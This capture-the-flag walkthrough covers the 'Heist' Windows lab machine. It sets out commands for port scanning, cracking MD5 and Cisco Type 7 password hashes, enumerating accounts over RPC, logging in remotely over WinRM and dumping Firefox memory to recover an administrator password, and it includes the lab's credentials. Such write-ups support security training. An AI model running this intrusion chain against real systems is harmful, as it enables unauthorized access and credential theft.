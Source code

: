 # Heist Walkthrough

Date: 2024/08/211.

## Ports Enumeration

I began with a full port scan to identify open services on the target machine:

```bash
nmap -Pn -p 80,135,445,5985,49669 -A -v -oN scan.txt -oX scan.xml <target>
```

The scan revealed the following open ports and services:

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
```

The target is likely running Microsoft Windows Server 2019 based on the OS fingerprint.2.

## Port 80 (HTTP) Enumeration

Navigating to the web server on port 80 presented a login page. The page allowed login either as an authenticated user or as a guest.

### Guest Login:

Logging in as a guest provided some valuable information:

Users:
* `admin`
* `rout3r`
* `hazard`

Configuration File:

* Located at http://heist.htb/attachments/config.txt, which contained encrypted passwords.

### Decrypting Passwords

The configuration file provided three encrypted passwords:

* `$1$pdQG$o8nrSzsGXeaduXrjlvKc91` (MD5 hash)
* `0242114B0E143F015F5D1E161713` (Cisco Type 7)
* `02375012182C1A1D751618034F36415408` (Cisco Type 7)

### MD5 Hash:

The first password is encrypted using MD5 (indicated by the $1$ prefix). I decrypted it using hashcat:

```bash
hashcat -m 500 <password_file> /usr/share/wordlists/rockyou.txt
```

### Cisco Type 7:

The other two passwords were Cisco Type 7 encrypted, which I decrypted using an online tool: [Cisco Password Cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html).

Decrypted passwords:

* `stealth1agent`
* `$uperP@ssword`
* `Q4)sJu\Y8qz*A3?d`

## Initial Access via RPC

Using the `hazard` credentials, I gained access via the RPC protocol with `rpcclient`:

```bash
rpcclient -U "hazard" --password="stealth1agent" <target>
```

## User Enumeration:

To enumerate users, I used a script that cycles through possible SIDs:

```bash
for i in {0..1050}; do 
  rpcclient -U "hazard%stealth1agent" <target> -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i"
done
```

This revealed several new users, including:

* SUPPORTDESK\Administrator
* SUPPORTDESK\Chase

## Gaining User Access via WinRM

With the `Chase` credentialsn, I connected to the target using WinRM:

```bash
evil-winrm -i <target> -u chase -p "Q4)sJu\Y8qz*A3?d"
```

I successfully obtained the user flag from the Chase account.

## Privilege Escalation to Administrator

### Enumeration

On the desktop, I found a `todo.txt` file with minimal hints. I used `winPEAS` for automated enumeration but found nothing conclusive. However, I noticed active Firefox processes and decided to dump their memory:

```powershell
Get-Process | Where-Object { $_.ProcessName -eq "firefox" }
```

### Dumping Firefox Memory

Using `procdump`, I dumped the Firefox process:

```powershell
.\procdump.exe 6696 -accepteula
```

Within the dump files, I discovered the administrator password: `4dD\!5}x/re8]FBuZ`.

## Accessing the Administrator Account

Finally, I logged in as Administrator using the discovered credentials and obtained the root flag:

```bash
evil-winrm -i <target> -u administrator -p "4dD\!5}x/re8]FBuZ"
```

## Summary

This box required careful enumeration and persistence. The initial access was challenging but rewarding as I gained further insight into Windows enumeration techniques. The privilege escalation, particularly through process memory dumping, provided a valuable learning experience.

### Key Takeaways:

* Web enumeration and password decryption
* RPC enumeration techniques
* Utilizing WinRM for remote access
* Process dumping and analysis for privilege escalation